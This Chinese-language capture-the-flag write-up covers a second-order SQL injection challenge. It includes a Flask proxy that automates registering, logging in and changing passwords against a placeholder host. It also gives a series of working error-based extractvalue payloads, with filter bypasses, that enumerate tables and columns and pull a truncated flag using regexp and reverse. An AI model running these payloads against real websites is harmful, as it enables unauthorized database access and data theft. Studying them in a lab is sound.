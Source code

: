 ![](<./img/Pasted image 20230102083703.png>)

---
首页长这样

![](<./img/Pasted image 20230102083746.png>)

注册账户的时候卡了一下，看源码差点没晕掉，哪有`email`过滤`@`的QAQ

![](<./img/Pasted image 20230102084658.png>)

使用用户名`admin"`注册，登录并在`changepwd.php`修改密码后，会出现错误提示

![](<./img/Pasted image 20230102094151.png>)

官方`wp`非常优雅地使用了代理转发来实现过程的自动化，赶紧学起来

```python
import requests
from flask import Flask, request, Response

app = Flask(__name__)
end_host = 'xxx.node4.buuoj.cn:81'
session = requests.Session()

@app.before_request
def before_request():
    data = request.data or request.form or None
    r = hack(data['username'])
    resp_headers = []
    for name, value in r.headers.items():
        if name.lower() in ('content-length', 'connection', 'content-encoding'):
            continue
        resp_headers.append((name, value))
    return Response(r, status=r.status_code, headers=resp_headers)

def hack(username):
    register(username)
    login(username)
    return changepwd()

def register(username):
    paramsPost = {'password': '123', 'email': '11', 'username': username}
    session.post('http://{}/register.php'.format(end_host), data=paramsPost)

def login(username):
    paramsPost = {'password': '123', 'username': username}
    session.post('http://{}/login.php'.format(end_host), data=paramsPost)

def changepwd():
    paramsPost = {'oldpass': '', 'newpass': ''}
    response = session.post('http://{}/changepwd.php'.format(end_host), data=paramsPost)
    return response

app.run(port=80, debug=True)
```

![](<./img/Pasted image 20230102095135.png>)

由于存在错误回显，尝试报错注入（空格、`right`、`limit`这些被`ban`了）
```sql
username=admin"^extractvalue(1,concat(0x5c,database()))#
```

```
XPATH syntax error: '\web_sqli'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='web_sqli'))))#
```

```
XPATH syntax error: '\article,flag,users'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag'))))#
```

```
XPATH syntax error: '\flag'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(flag))from(flag))))#
```

```
XPATH syntax error: '\RCTF{Good job! But flag not her'
```

不在`flag`表里

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))))#
```

```
XPATH syntax error: '\name,pwd,email,real_flag_1s_her'
```

使用`regexp`获取被截断的项
```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))))#
```

```
XPATH syntax error: '\real_flag_1s_here'
```

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(real_flag_1s_here))from(users))))#
```

```
XPATH syntax error: '\xxx,xxx,xxx,xxx,xxx,xxx,xxx,xxx'
```

再次使用`regexp`匹配

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))))#
```

```
XPATH syntax error: '\flag{a8f839e3-d22e-4629-a4f9-3a'
```

使用`reverse`获取被截断的内容

```sql
username=admin"^extractvalue(1,concat(0x5c,(select(group_concat(reverse(real_flag_1s_here)))from(users)where(real_flag_1s_here)regexp('^f'))))#
```

```
XPATH syntax error: '\}f44af64b92a3-9f4a-9264-e22d-3e'
```

倒转后拼接即可

#Web #SQL注入 #代理 #报错注入 #bypass 